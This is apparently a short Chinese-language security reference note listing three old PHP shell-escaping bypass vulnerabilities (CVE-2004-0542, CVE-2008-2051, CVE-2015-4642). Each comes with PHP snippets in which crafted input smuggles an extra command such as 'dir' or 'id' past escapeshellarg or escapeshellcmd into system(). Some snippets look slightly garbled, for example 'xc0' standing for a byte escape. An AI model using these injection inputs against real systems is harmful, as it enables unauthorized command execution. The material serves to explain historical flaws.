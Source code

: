 ## [3]经典EXP

> 
PHP &lt;= 4.3.6 on Windows – CVE-2004-0542


```
$find = 'word';
system('FIND /C /I '.escapeshellarg($find).' c:\\where\\');

同时运行dir命令

$find = 'word " c:\\where\\ || dir || ';
system('FIND /C /I '.escapeshellarg($find).' c:\where\');

```

> 
PHP 4 &lt;= 4.4.8 and PHP 5 &lt;= 5.2.5 – CVE-2008-2051


```
Shell需要使用GBK，EUC-KR，SJIS等可变宽度字符集的语言环境。

$text = "sth";
system(escapeshellcmd("echo ".$text));
$text = "sth xc0; id";
system(escapeshellcmd("echo ".$text));

或者

$text1 = 'word';
$text2 = 'word2';
system('echo '.escapeshellarg($text1).' '.escapeshellarg($text2));
$text1 = "word xc0";
$text2 = "; id ; #";
system('echo '.escapeshellarg($text1).' '.escapeshellarg($text2));

```

> 
PHP &lt; 5.4.42, 5.5.x before 5.5.26, 5.6.x before 5.6.10 on Windows – CVE-2015-4642


```
额外传递的第三个参数(—param3)

$a = 'param1_value';
$b = 'param2_value';
system('my_command --param1 ' . escapeshellarg($a) . ' --param2 ' . escapeshellarg($b));

$a = 'a\';
$b = 'b -c --param3\';
system('my_command --param1 ' . escapeshellarg($a) . ' --param2 ' . escapeshellarg($b));

```
